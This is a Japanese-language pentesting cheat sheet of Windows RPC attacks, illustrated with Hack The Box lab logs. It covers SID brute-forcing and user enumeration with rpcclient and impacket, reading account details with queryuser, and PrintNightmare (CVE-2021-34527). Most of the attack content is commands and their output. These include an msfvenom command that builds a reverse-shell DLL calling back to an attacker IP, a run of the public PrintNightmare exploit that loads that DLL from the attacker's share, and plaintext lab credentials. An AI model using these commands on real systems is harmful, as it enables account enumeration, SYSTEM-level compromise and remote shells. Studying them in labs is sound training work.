 # Attack
----

## SID Bruteforce
* セキュリティ識別子（SID）は`S-1-5-ドメイン識別子-相対識別子`で構成される
* ドメイン識別子は予め定められていないが、Administratorなどの一部の相対識別子は予め定められている
  * なお`S-1-5-21-ドメイン識別子-500`はAdministratorである
  * 詳細は[オペレーティング システムの既知のWindows識別子](https://docs.microsoft.com/ja-jp/troubleshoot/windows-server/identity/security-identifiers-in-windows)を参照
* rpcにアクセス可能な権限を有する時、`lookupnames`でドメイン識別子を取得可能
* `lookupsids`でSIDからユーザ名の取得が可能であるため、相対識別子の総当りを行うことで、該当のドメインのユーザを列挙可能
* 上記の相対識別子の総当りを自動化したimpacketのlookupsidsを利用可能
* HTB: Heist

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $rpcclient -U hazard -h heist.htb
  Enter WORKGROUP\hazard's password:
  rpcclient $> lookupnames hazard
  hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1009
  S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1010
  S-1-5-21-4254423774-1266059056-3197185112-1010 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1011
  S-1-5-21-4254423774-1266059056-3197185112-1011 *unknown*\*unknown* (8)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1012
  S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1013
  S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
  rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1014
  S-1-5-21-4254423774-1266059056-3197185112-1014 *unknown*\*unknown* (8)
  rpcclient $> ^C
  ┌─[✗]─[rio@parrot]─[~/Htb/Heist]
  └──╼ $impacket-lookupsid hazard:stealth1agent@heist.htb
  Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
  
  [*] Brute forcing SIDs at heist.htb
  [*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
  [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
  500: SUPPORTDESK\Administrator (SidTypeUser)
  501: SUPPORTDESK\Guest (SidTypeUser)
  503: SUPPORTDESK\DefaultAccount (SidTypeUser)
  504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
  513: SUPPORTDESK\None (SidTypeGroup)
  1008: SUPPORTDESK\Hazard (SidTypeUser)
  1009: SUPPORTDESK\support (SidTypeUser)
  1012: SUPPORTDESK\Chase (SidTypeUser)
  1013: SUPPORTDESK\Jason (SidTypeUser)
  ```

##  enumdomusers
* enumdomusersを利用し、ドメインユーザを列挙可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> enumdomusers
  user:[Administrator] rid:[0x1f4]
  user:[Guest] rid:[0x1f5]
  user:[krbtgt] rid:[0x1f6]
  user:[SVC_TGS] rid:[0x44f]
  rpcclient $> ^C
  ```

## queryuser
* queryuserを利用し、ユーザのパスワード設定時刻を取得可能
* HTB: Active

  ```console
  ┌─[✗]─[rio@parrot]─[~/Htb/Active]
  └──╼ $rpcclient -U svc_tgs -h active.htb
  Enter WORKGROUP\svc_tgs's password:
  rpcclient $> queryuser administrator
          User Name   :   Administrator
          Full Name   :
          Home Drive  :
          Dir Drive   :
          Profile Path:
          Logon Script:
          Description :   Built-in account for administering the computer/domain
          Workstations:
          Comment     :
          Remote Dial :
          Logon Time               :      金, 22  1月 2021 17:42:31 JST
          Logoff Time              :      木, 01  1月 1970 09:00:00 JST
          Kickoff Time             :      木, 01  1月 1970 09:00:00 JST
          Password last set Time   :      木, 19  7月 2018 04:06:40 JST
          Password can change Time :      金, 20  7月 2018 04:06:40 JST
          Password must change Time:      木, 14  9月 30828 11:48:05 JST
          unknown_2[0..31]...
          user_rid :      0x1f4
          group_rid:      0x201
          acb_info :      0x00000210
          fields_present: 0x00ffffff
          logon_divs:     168
          bad_password_count:     0x00000000
          logon_count:    0x00000023
          padding1[0..7]...
          logon_hrs[0..21]...
  rpcclient $> ^C
  ```

  ## PrintNightmare(CVE-2021-34527)
* rpcdumpでrpcでどのようなサービスが動作しているのか、調査可能
* PrintNightmareの可能性が存在するかどうかは、MS-RPRNが動作しているかどうかを調査すればよい
* [PrintNightmare exploit](https://github.com/cube0x0/CVE-2021-1675)
* Windows 7 <= Windows 10 21H1 && Windows Server 2008 <= Windows Server 2019
* 低権限のユーザアカウントを有する時、System権限を取得可能
* Htb: Atom

  ```console
  ┌─[rio@parrot]─[~/Htb/Atom]
  └──╼ $impacket-rpcdump @10.129.211.146 | grep -A8 MS-RPRN
  Protocol: [MS-RPRN]: Print System Remote Protocol
  Provider: spoolsv.exe
  UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
  Bindings:
            ncacn_ip_tcp:10.129.211.146[49668]
            ncalrpc:[LRPC-47371fd414b47e0f02]
  
  Protocol: N/A
  Provider: N/A
  ┌─[✗]─[rio@parrot]─[~/Htb/Atom/CVE-2021-1675]
  └──╼ $msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o shell.dll
  [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
  [-] No arch selected, selecting arch: x64 from the payload
  No encoder specified, outputting raw payload
  Payload size: 460 bytes
  Final size of dll file: 8704 bytes
  Saved as: shell.dll
  ┌─[rio@parrot]─[~/Htb/Atom/CVE-2021-1675]
  └──╼ $python3 CVE-2021-1675.py atom/jason:kidvscat_electron_@123@10.129.211.146 '\\10.10.16.10\public\shell.dll'
  [*] Connecting to ncacn_np:10.129.211.146[\PIPE\spoolss]
  [+] Bind OK
  [+] pDriverPath Found C:\WINDOWS\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
  [*] Executing \??\UNC\10.10.16.10\public\shell.dll
  [*] Try 1...
  [*] Stage0: 0
  [*] Try 2...
  [*] Stage0: 0
  ```
  
  
